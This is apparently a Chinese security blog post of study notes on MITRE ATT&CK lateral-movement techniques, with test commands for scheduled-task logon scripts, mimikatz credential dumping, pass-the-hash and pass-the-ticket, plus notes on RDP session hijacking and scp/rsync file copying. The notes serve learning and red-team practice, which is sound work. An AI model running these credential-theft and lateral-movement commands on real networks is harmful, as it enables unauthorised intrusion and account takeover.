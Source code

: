 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之lateral-movement
excerpt: "跟着ATT&CK学安全之lateral-movement"
categories: [ATT&CK]
comments: true
---
```

#### Application Deployment Software
攻击者可以通过企业管理员账号进行软件下发,来进行横向移动
#### T1037 - Logon Scripts
通过修改远程的Logon Scripts脚本来进行横向移动
##### 测试1 使用调度系统添加Logon自启动
```
schtasks /create /tn "T1037_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"
schtasks /create /tn "T1037_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"
```
#### T1075 - Pass the Hash
这项技术不需要红队获得密码明文,这个技术绕过了标准的权限认证步骤,直接到hash验证的部分,win7或者高于KB2871997需要域名用户凭证,或者RID 500 administrator hash
###### 测试 
首先用这个方法把密码hash dump出来**(mimikatz现在也可以显示明文了!!!!!)**
```
privilege::debug
sekurlsa::logonpasswords
```
然后
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```
成功复现
###### 测试2 crackmapexec Pass the Hash
这个是一个竞品,暂时跳过
### T1097 - Pass the Ticket
pass the ticket是使用Kerberos tickets而不需要账户密码获得权限.Kerberos验证通常被用来当作横向移动的第一步.这种技术需要获取有效的Kerberos ticket和有效的账户
###### 测试1 Mimikatz Kerberos Ticket Attack
```
mimikatz # kerberos::ptt #{user_name}@#{domain}
```
更多内容见:https://blog.csdn.net/citelao/article/details/50947685
### T1077 - Windows Admin Shares
windows系统又一个隐藏的网络分享,它只在administrator用户可见,并且提供了远程文件复制等功能.红队可以使用这个技术结合administrator等级的账号使用SMB协议进行远程控制.

**之后再补充**
### T1076 - Remote Desktop Protocol
远程桌面是操作系统中的常见功能。它允许用户使用远程系统上的系统桌面图形用户界面登录到交互式会话。Microsoft将其对远程桌面协议（RDP）的实现称为远程桌面服务（RDS）。

如果启用了服务并允许访问具有已知凭据的帐户，则攻击者可以通过RDP / RDS连接到远程系统以扩展访问权限。攻击者可能会使用凭据访问技术来获取与RDP一起使用的凭据。攻击者还可以结合使用RDP和可访问性功能技术来实现持久性。

攻击者还可能执行RDP会话劫持，其中涉及窃取合法用户的远程会话。通常情况下当其他人试图窃取其会话(可以理解为windows的快速切换用户功能)时会收到问题提示并要求出示密码。凭借系统权限(SYSTEM权限)的终端服务控制台c:\windows\system32\tscon.exe [session number to be stolen]，攻击者可以切换会话而无需输入密码。这可能导致攻击者窃取域管理员或更高特权的账户会话。











#### T1105 - Remote File Copy
##### 测试1 rsync remote file copy (push)
平台:linux
`rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}`
##### 测试2 rsync remote file copy (pull)
平台:linux
`rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}`
##### 测试3 scp remote file copy (push)
平台:linux
`scp #{local_file} #{username}@#{remote_host}:#{remote_path}`
##### 测试4 scp remote file copy (pull)
平台:linux
`scp #{username}@#{remote_host}:#{remote_file} #{local_path}`
方法很多,未完待续

